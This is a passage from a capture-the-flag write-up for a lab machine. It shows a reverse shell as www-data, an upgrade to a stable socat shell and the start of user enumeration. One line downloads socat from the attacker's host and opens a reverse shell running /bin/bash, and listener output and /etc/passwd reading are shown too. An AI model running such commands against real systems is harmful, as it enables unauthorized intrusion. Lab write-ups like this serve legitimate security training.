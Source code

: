 ```shell
    inet6 fe80::8b:dfff:fe7d:191f/64 scope link 
       valid_lft forever preferred_lft forever
```

This time it worked!!

I'm user `www-data`!

**user.txt:**
```shell
www-data@incognito:/$ cat /home/dev2/user.txt
{Redacted}
```

**Stable shell via `socat`:**
```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.24|13:20:36(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:19:48(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                
2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing
2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444
```

```shell
www-data@incognito:/$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:19:48(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                
2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing
2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444
                                                                 2023/01/24 13:21:16 socat[74118] N accepting connection from AF=2 10.10.115.32:54844 on AF=2 10.9.0.253:4444
                                                                  2023/01/24 13:21:16 socat[74118] N starting data transfer loop with FDs [5,5] and [7,7]
                                              www-data@incognito:/$ 
www-data@incognito:/$ export TERM=xterm-256color
www-data@incognito:/$ stty rows 22 columns 107
www-data@incognito:/$ ^C
www-data@incognito:/$ 
```

## Privilege Escalation

### www-data to dev2

Let's do some basic enumerations!

**System users:**
```shell
www-data@incognito:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
dev1:x:1001:1001::/home/dev1:/bin/bash
dev2:x:1000:1000:cirius:/home/dev2:/bin/bash
www-data@incognito:/$ ls -lah /home
total 16K
drwxr-xr-x  4 root root 4.0K Mar  1  2021 .
drwxr-xr-x 24 root root 4.0K Aug 11  2021 ..
drwxr-x---  7 dev1 dev1 4.0K Jun 11  2021 dev1
drwxr-xr-x  6 dev2 dev2 4.0K Jun 11  2021 dev2
```
